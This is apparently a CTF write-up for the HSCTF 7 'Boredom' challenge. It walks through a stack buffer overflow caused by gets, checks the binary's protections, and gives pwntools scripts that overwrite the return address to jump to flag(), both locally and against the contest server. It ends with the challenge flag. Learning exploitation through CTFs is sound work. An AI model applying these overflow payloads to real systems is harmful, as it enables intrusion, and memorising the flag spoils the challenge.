 ```yaml
---
layout: single
author: andrea
title: HSCTF 7 - Binary Exploitation - Boredom
toc: true
tags: ctf
---
```


_Boredom_ is the the first ctf of binary exploitation. It provides a source file **boredom.c** and a binary file **boredom**.

## Analysis
First, I analyse the source code to find some exploitable code. Indeed, the main call the unsafe function `gets`:

```cpp
int main() {
	char toDo[200];
	setup();

	printf("Give me something to do: ");
	gets(toDo);
	puts("Ehhhhh, maybe later.");
	return 0;
}
```

`gets` saves the input in the char array `toDo` and it can overwrite the return instruction pointer in the stack if the user writes more than 200 characters. The other function in **boredom.c** tells us where the flag is located:

```cpp
void flag() {
	FILE *f = fopen("flag.txt", "r");
	char buf[50];
	if (f == NULL) {
		puts("You're running this locally or I can't access the flag file for some reason.");
		puts("If this occurs on the remote, ping @PMP#5728 on discord server.");
		exit(1);
	}
	fgets(buf, 50, f);
	printf("Hey, that's a neat idea. Here's a flag for your trouble: %s\n", buf);
	puts("Now go away.");
	exit(42);
}
```

We just need to find the address of function <code class="cpp hljs inline">flag</code> and overwrite it in the return instruction pointer in the stack. However, even though this is the main concept behind the buffer overflow exploit, there are a lot of details to make it real.

## Architecture characteristics

Before writing any exploit we have to understand in which architecture the **boredom** binary is running. The `readelf -h boredom` command answers to all our questions:

```
ELF Header:
Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
Class:                             ELF64
Data:                              2's complement, little endian
Version:                           1 (current)
OS/ABI:                            UNIX - System V
ABI Version:                       0
Type:                              EXEC (Executable file)
Machine:                           Advanced Micro Devices X86-64
```

Boom! It is 64bit architecture and little-endian (least significant byte are stored in the smallest address, e.g. higher in the stack).

Now we use our swiss army knife, aka pwntools, to get some other interesting features of this binary:

```python
#!/usr/bin/python3
from pwn import &#42;
e = ELF('./boredom')
print(e)
```


the output is:

```cpp
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

- _amd-64-little_ tells what we already know;
- _Full RELRO_: the Global Offset Table (GOT) is read-only, that is we can't change the function addresses.
- _No canary found_: the stack doesn't protect the return pointer if we try to overwrite it. This is the vulnerability we are exploiting.
- _NO PIE_: NO Position-Independent Executable, so the code can't run in any address but in those addresses specified by the binary file. In a _PIE_ file there are offsets instead of addresses.

## Exploit

Knowing all these characteristics of the the binary, we remain to guess the offset between the buffer ```toDo``` and the return instruction pointer in the stack. So when the program asks for the input we'll write 200 chars + offset + address of ```flag()```.

```python
#!/usr/bin/python3
from pwn import &#42;
e = ELF('./boredom')
flag_addr = p64(e.symbols['flag'])

for i in range(201,220):
	print('i: ' + str(i))
	p = process('./boredom')
	payload = bytes("a"*i,'utf-8') + flag_addr
	p.sendlineafter(': ', payload)
	res = p.recvall(timeout=1)
	if "flag" in res.decode():
		print(res.decode())
		break;
```

where `flag_addr = \xd5\x11\x40\x00\x00\x00\x00\x00` is 8 byte long.

When the binary returns _You're running this locally or I can't access the flag file for some reason._ we have found the right offset.

**In my case** the offset is 16 bytes:

```cpp
...
i: 215
[+] Starting local process './boredom': pid 203
[+] Receiving all data: Done (21B)
[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 203)
i: 216
[+] Starting local process './boredom': pid 206
[+] Receiving all data: Done (162B)
[*] Process './boredom' stopped with exit code 1 (pid 206)
Ehhhhh, maybe later.
You're running this locally or I can't access the flag file for some reason.
If this occurs on the remote, ping @PMP#5728 on discord server.

i: 217
[+] Starting local process './boredom': pid 209
[+] Receiving all data: Done (21B)
[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 209)
...
```

We exploited the buffer overflow locally now it's time to make it working remotely:

```python
#!/usr/bin/python3
from pwn import *

p = remote('pwn.hsctf.com', 5002)

flag_addr = 0x00000000004011d5
print( bytes('a'*(208),'utf-8')+p64(flag_addr))
p.sendlineafter(': ', bytes('a'*(208),'utf-8')+p64(flag_addr))

p.interactive()
```

Unfortunately, the offset that we use to pwn the binary online is different from that we used locally. The offset is just 8 bytes instead of 16 bytes.

Eventually, the flag is:

```
flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}
```

## Resources

- [ctftime event page](https://ctftime.org/event/939/)
- [Relocation Read-Only (RELRO)](https://ctf101.org/binary-exploitation/relocation-read-only/)
